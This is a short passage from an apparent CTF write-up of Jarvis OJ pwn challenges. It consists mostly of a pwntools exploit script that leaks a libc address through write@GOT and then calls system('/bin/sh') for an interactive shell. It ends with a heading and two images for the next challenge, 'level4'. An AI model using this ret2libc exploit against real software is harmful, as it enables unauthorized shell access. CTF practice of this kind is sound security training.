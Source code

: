    ```python
   
   payload = padding
   payload += p64(pop_rdi_ret) + p64(1)
   payload += p64(pop_rsi_p_r_ret) + p64(write_got) + p64(8)
   payload += p64(write_plt)
   payload += p64(pwn_addr)
   
   r.recvuntil('Input:\n')
   r.sendline(payload)
   leak_addr = u64(r.recv(8))
   #print(hex(leak_addr))
   
   libc_base = leak_addr - write_libc
   binsh = binsh_libc + libc_base
   system = sys_libc + libc_base
   
   payload2 = padding + p64(pop_rdi_ret) + p64(binsh) + p64(system) + p64(0)
   r.recvuntil('Input:\n')
   r.sendline(payload2)
   r.interactive()
   #CTF{b1aeaa97fdcc4122533290b73765e4fd}
   ```

   

* #### [XMAN]level4

   ![23](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/23.png)

    ![24](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/24.png)
